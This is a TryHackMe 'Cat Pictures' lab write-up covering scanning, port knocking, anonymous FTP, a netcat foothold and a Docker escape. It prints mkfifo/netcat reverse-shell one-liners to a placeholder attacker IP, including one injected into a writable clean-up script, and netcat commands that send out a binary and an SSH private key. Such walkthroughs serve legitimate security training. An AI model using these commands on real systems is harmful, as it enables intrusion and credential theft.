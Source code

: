 ```yaml
---
layout: post
title: TryHackMe/Easy/Cat-Pictures
abbrlink: 412a7eb126c8482b9166ee3827d695e4
tags:
  - docker escape
  - port knocking
  - web
  - linux privilege escalation
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Cat Pictures
date: 1722071963156
updated: 1722176195941
---
```


<https://tryhackme.com/r/room/catpictures>

# Enumeration

## \[+] 10.10.212.29 - cat.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.212.29 cat.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.212.29
```

First I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 8080 - HTTP

On this port we will find a phpBB forum with a single post:

![a991930c686e60f743ee7e0b1a8af330.png](/resources/7d24498693f04d18bb3076ff0d33d95d.png)

In the post we will get a clue on how to access the system:

![64fa7f15679c8a2116561cb0bf51f9b0.png](/resources/3cdf85d6a758460c81f04b71975d7072.png)

## \[+] Ports 1111, 2222, 3333, 4444

To gain access to this service, we will need to utilize [Port Knocking](https://www.howtogeek.com/442733/how-to-use-port-knocking-on-linux-and-why-you-shouldnt/). As hinted in the forum post, we have to connect to the ports in the sequence, 1111, 2222, 3333, 4444.

First we will have to install the `knockd` package:

```sh
sudo apt install knockd
```

Then run the `knock` command with the port sequence and the `-d` flag to add a delay of 100 miliseconds (might need to adjust this amount if the FTP isn't working):

```sh
knock -d 100 $RHOSTS 1111 2222 3333 4444
```

After executing the port knock, we will run another Nmap scan to see a new service open on port 21:

```sh
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 21 - FTP

We are now able to connect to the FTP service anonymously using the following command:

```sh
ftp anonymous@$RHOSTS
```

Inside the FTP server we will find a text file which we can download using the `get` command:

```sh
ls -lah
get note.txt
exit
```

![758a7ec937f7d8ea5ea26924590220a2.png](/resources/95740a2c0c964ab0a6fce11c9a3c10bb.png)

In the note we will find the password to access the service on port 4420:

```sh
cat note.txt
```

![8869ba2b15aa1f222450c138a7be53df.png](/resources/74733e10584049fc8eb65193bc3ec920.png)

# Initial Foothold

## \[+] Port 4420 - TCP

We can connect to this port using Netcat, then enter the password when prompted and we enter a pseudo terminal:

```sh
nc $RHOSTS 4420
ls
```

![ab25476c8df570a33d901c87b6b30d36.png](/resources/9350fe64306d4a4dbc900d6048cbac5a.png)

Since we can't use `cd` to change directories, let's use `ls` to see what binaries are available to us in the `/usr/bin/` directory:

```sh
ls /usr/bin/
```

![3f1a56c4ec4737267d5fdcca5b4a0516.png](/resources/edd3d29e8aa340d08acde3ff2a4e26ed.png)

There is `mkfifo` which means we can try to get a reverse shell from here to break out of this pseudo terminal.

In a new terminal on the attacking machine, start a Netcat listener:

```sh
nc -nvlp 4444
```

Then on the victim machine, we run the following command:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

When we check back to our listener, we should have a connection back from the victim machine and a full bash shell, but we are still restricted since not all standard binaries are installed on this machine:

![f4848b1964769105c0de2ad5491804ea.png](/resources/380fa437436746de9fb35a23f217efeb.png)

Inside the `/home/catlover/` directory we will find a binary named `runme`:

![e7fcc928a6961702bcb58210decd0e95.png](/resources/8432bebcf740493794fe4d4fd077d269.png)

When we run this binary, we are prompted for a password and the passwords we have found will work:

![6210d6e7250b9de39cf009b11be2b9f2.png](/resources/fa53811d6f9c48ebbc134c0acd493d03.png)

Let's transfer this file to our machine so we can analyze it. On our attacking machine we run the command:

```sh
nc -nvlp 4445 > runme
```

On the victim machine run the command:

```sh
nc <ATTACKER_IP> < /home/catlover/runme
```

After a minute, on the attacking machine, press `CTRL+C` to close the Netcat listener and run the `strings` command on the binary. Scrolling through the output, we will find the "Please enter yout password" string and the correct password needed:

```sh
strings runme
```

![7d3a1f5b443bc0c6dbf1ad98d6eff12a.png](/resources/ce6a486f10fd4ea685af9a23092aa13e.png)

Back on the victim machine, we run the binary again using `./runme` and enter the password when prompted. When we enter the correct password, there will be an SSH key in the same folder named `id_rsa`:

![83894ebfd0f46627a3be054bc3bca30a.png](/resources/2cc087a1f4a047a3909e5b0d96daeaa7.png)

We can transfer this SSH key the same way we did with the `runme` file.

On the attacking machine:

```sh
nc -nvlp 4445 > catlover.key
```

On the victim machine:

```sh
nc <ATTACKER_IP> 4445 < /home/catlover/id_rsa
```

After a minute, on the attacking machine, press `CTRL+C` to close the Netcat listener. Then use the `chmod` command to give the SSH key the proper permissions before connecting via SSH:

```sh
chmod 600 catlover.key
```

## \[+] Port 22 - SSH

Let's connect via SSH using the key we just got with the [ssh](https://linux.die.net/man/1/ssh) command:

```sh
ssh -i catlover.key catlover@$RHOSTS
```

![ef62052b121f5aa32c7af3b3f0e3e319.png](/resources/34fb8ec4597746d09937272a8098ac87.png)

We can find the first flag in `/root/flag.txt`:

```sh
cat /root/flag.txt
```

![532115e3f350d69139d03c84b42ee874.png](/resources/2dcfb363aa3f4c989df2ad3fc982cda5.png)

# Privilege Escalation

In the root directory we will find a `.dockerenv` file which means we are currently in a [Docker](https://www.docker.com/) container:

![8fe8e8de2d547163a2a1b05d7ef75dcb.png](/resources/96c0e0ddc8b34146a9b4ec10e60837af.png)

The `.bash_history` is a log file with all the previously ran bash commands. We will find our next hint on how to escape this Docker container:

```sh
cat .bash_history
```

![d6e56d3b2e33a83607d453ae46a1f947.png](/resources/30e9ffa8bb7444acba0fc9baef745fb0.png)

Checking the `/opt/clean/clean.sh` file we will find the script is being used to clear out the `/tmp` directory which is on the host machine outside of the Docker container. Since we can write to this script, we can use it to get a reverse shell.

```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 4446 >/tmp/f" > /opt/clean/clean.sh
```

Then start another Netcat listener on our attacking machine:

```sh
nc -nvlp 4446
```

After a moment we should have a connection from the victim host machine:

![64a2703c26777ca39e5ab7de07ebefbe.png](/resources/87d1cd09195c4bb2a0240eed2d74fa61.png)

We can find the root flag in `/root/root.txt`:

![53ba7b59564e26a87161544ec4e6e5f4.png](/resources/088ff0bb47d94654b601d4551e23e9d3.png)
